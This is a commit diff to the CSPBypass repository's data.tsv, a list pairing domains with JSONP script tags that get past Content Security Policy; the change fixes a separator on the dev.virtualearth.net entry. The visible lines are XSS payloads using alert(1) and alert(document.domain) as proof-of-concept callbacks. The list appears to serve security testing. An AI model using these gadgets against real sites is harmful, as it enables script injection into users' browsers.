

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Added virtualearth.net

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -209,2 +209,2 @@ zhike.help.360.cn	<script src="https://zhike.help.360.cn/api/v1/robotWindow?call
 zhuanjia.sogou.com	<script src="https://zhuanjia.sogou.com/base/ajax/login/login-init?callback=alert(1)-"></script>
-dev.virtualearth.net  <script src="https://dev.virtualearth.net/REST/v1/Imagery/Metadata/Road?jsonp=alert(document.domain);//"></script>
+dev.virtualearth.net	<script src="https://dev.virtualearth.net/REST/v1/Imagery/Metadata/Road?jsonp=alert(document.domain);//"></script>
```
